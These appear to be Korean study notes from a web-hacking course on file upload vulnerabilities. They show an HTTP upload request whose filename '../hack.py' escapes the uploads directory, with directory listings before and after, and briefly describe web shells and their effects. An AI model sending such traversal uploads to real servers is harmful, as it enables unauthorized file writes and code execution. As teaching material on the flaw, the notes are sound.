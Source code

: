 → Path Traversal  취약점이 있는 코드이다.

이용자가 입력한 파일 이름을 그대로 사용하기 때문에 공격자가 `../` 와 같은 메타문자를 사용한다면 uploads를 벗어나 상위 디렉토리에도 파일을 업로드할 수 있다.

```python
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
upload test !
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

```python
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="../hack.py"
Content-Type: text/plain
[malicious file content]
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

```python
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```

```python
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
-rw-r--r--  1 dreamhack  staff  431  1 30 22:12 hack.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```

### 악성 파일 업로드

⇒ 악성 파일 업로드 취약점은 이용자가 파일을 업로드할 때, 이를 제대로 검사하지 않아서 발생하는 취약점,

**웹 셸:**

웹 서버는 `.php` , `.jsp` , `.asp` 와 같은 확장자 파일을 Common Gateway Interface(CGI) 로 실행하고, 그 결과를 이용자에게 반환한다. Remote Code Execution, Cross Site Scripting (XSS) 가능, 간접적으로 Cookie Hijacking, Cross Site Request Forgery (CSRF) 가능
